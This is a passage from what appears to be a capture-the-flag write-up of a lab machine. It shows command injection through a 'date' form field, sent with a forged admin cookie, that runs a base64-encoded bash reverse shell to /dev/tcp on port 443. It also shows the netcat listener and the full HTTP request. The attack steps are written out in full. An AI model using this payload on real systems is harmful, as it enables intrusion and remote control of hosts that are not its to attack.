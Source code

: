 ```bash
echo -n '/bin/bash -l > /dev/tcp/10.10.16.27/443 0<&1 2>&1' | base64

```

this command gave us the following B64 encoded string 

```bash
L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTYuMjcvNDQzIDA8JjEgMj4mMQ==
```

Then using this B64 string our payload will look like this:

```bash
echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTYuMjcvNDQzIDA8JjEgMj4mMQ== | base64 --decode | bash
```

So next we setup our reverse listener with netcat

```bash
nc -lnvp 443
```

Then we sent the following request. After sending this request we'd get a reverse shell as dvir user

```
POST /dashboard HTTP/1.1
Host: 10.129.222.226:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 115
Origin: http://10.129.222.226:5000
Connection: close
Referer: http://10.129.222.226:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2023-09-15; echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTYuMjcvNDQzIDA8JjEgMj4mMQ== | base64 --decode | bash
```

![Code execution](/assets/img/Headless/Headless_09.png)

## Privilege escalation
